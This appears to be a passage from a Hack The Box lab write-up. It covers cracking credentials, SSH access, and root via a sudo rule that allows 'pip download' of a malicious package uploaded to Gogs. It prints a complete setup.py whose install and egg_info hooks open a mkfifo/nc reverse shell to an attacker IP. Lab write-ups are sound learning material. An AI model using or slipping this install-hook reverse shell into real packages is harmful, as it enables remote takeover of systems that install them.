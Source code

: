 
after using [crackstation](https://crackstation.net/) we found the creds were `admin:admin` and `john:ThisIs4You`, so we can try and ssh into john since we know he is an actual user on the box

![255297329-a701631a-0061-4a61-ab90-82f069edbc5f](https://github.com/0xRyies/HTB/assets/60355031/d95e0ba9-111c-4b7c-a5ce-384bbdb0f201)

it works and now we can access user.txt

## Privilege Escalation 

![255297417-a560f124-1899-49a9-add1-809a382763f4](https://github.com/0xRyies/HTB/assets/60355031/9e1b6598-2594-44c4-8c9d-1595d89b3aa9)

trying sudo -l was very interesting as it shows we can run pip download anything that ends with tar.gz on port 3000 as root privilege so the first thing that came to my mind was that we can use john creds to access his Gogs and maybe upload a malicious package that can give us a straight root shell

### Root flag 

![255297684-25c720e7-7a1e-4860-acd5-cd310cb46893](https://github.com/0xRyies/HTB/assets/60355031/7382daae-d654-41db-a890-58166115ae97)


the creds are working and now we can make a new public repo as john and upload our shell, [This](https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/pip-download-code-execution/) link helped me build the tar.gz file and it was pretty straight forward.
we can just add a small edit to the setup.py so it gives us a reverse shell instead
```python
# setup.py
from setuptools import setup, find_packages
from setuptools.command.install import install
from setuptools.command.egg_info import egg_info

def RunCommand():
	# Arbitrary code here!
	import os;os.system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.16.5 9191 >/tmp/f")

class RunEggInfoCommand(egg_info):
    def run(self):
        RunCommand()
        egg_info.run(self)


class RunInstallCommand(install):
    def run(self):
        RunCommand()
        install.run(self)

setup(
    name = "exploitpy",
    version = "0.0.1",
    license = "MIT",
    packages=find_packages(),
    cmdclass={
        'install' : RunInstallCommand,
        'egg_info': RunEggInfoCommand
    },
)
```
